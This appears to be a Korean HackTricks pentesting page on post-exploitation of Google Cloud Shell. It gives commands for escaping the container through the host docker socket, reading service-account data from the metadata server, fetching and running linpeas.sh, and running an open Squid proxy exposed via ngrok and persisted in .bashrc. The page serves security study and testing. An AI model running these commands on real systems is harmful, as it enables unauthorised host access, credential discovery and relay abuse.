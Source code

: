 # GCP - 클라우드 쉘 후반 공격

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 팁을 공유하려면 **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하세요.

</details>
{% endhint %}

## 클라우드 쉘

클라우드 쉘에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 컨테이너 탈출

Google 클라우드 쉘은 컨테이너 내에서 실행되므로 **쉽게 호스트로 탈출**할 수 있습니다:

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Google에서는 이를 취약점으로 간주하지는 않지만, 해당 환경에서 무슨 일이 일어나고 있는지 더 넓은 시야를 제공합니다.

또한, 호스트에서 서비스 계정 토큰을 찾을 수 있다는 점에 유의하십시오:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

다음과 같은 범위로:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

LinPEAS를 사용하여 메타데이터 열거:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

[https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions)을(를) 사용한 후 **권한이 발견되지 않았습니다**...

### 프록시로 사용하기

Google 클라우드 셸 인스턴스를 프록시로 사용하려면 다음 명령을 실행해야 합니다(.bashrc 파일에 삽입할 수도 있음):
```bash
sudo apt install -y squid
```
그냥 알려드리자면 Squid는 http 프록시 서버입니다. 다음 설정을 사용하여 **squid.conf** 파일을 만드세요:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
**squid.conf** 파일을 **/etc/squid**로 복사합니다.
```bash
sudo cp squid.conf /etc/squid
```
마지막으로 스쿼이드 서비스를 실행하십시오:
```bash
sudo service squid start
```
외부에서 프록시를 사용할 수 있도록 ngrok을 사용하십시오:
```bash
./ngrok tcp 3128
```
프록시를 실행한 후 tcp:// URL을 복사합니다. 브라우저에서 프록시를 실행하려면 tcp:// 부분과 포트를 제거하고 포트를 브라우저 프록시 설정의 포트 필드에 넣는 것이 좋습니다 (squid는 http 프록시 서버입니다).

시작 시 더 잘 사용하기 위해 .bashrc 파일에 다음 줄이 있어야 합니다:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
지침은 [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 복사되었습니다. 다른 미친 아이디어를 확인하려면 해당 페이지를 확인하십시오. 클라우드 셸에서 모든 종류의 소프트웨어(데이터베이스 및 심지어 윈도우)를 실행하는 방법에 대한 아이디어를 얻을 수 있습니다.

{% hint style="success" %}
AWS 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

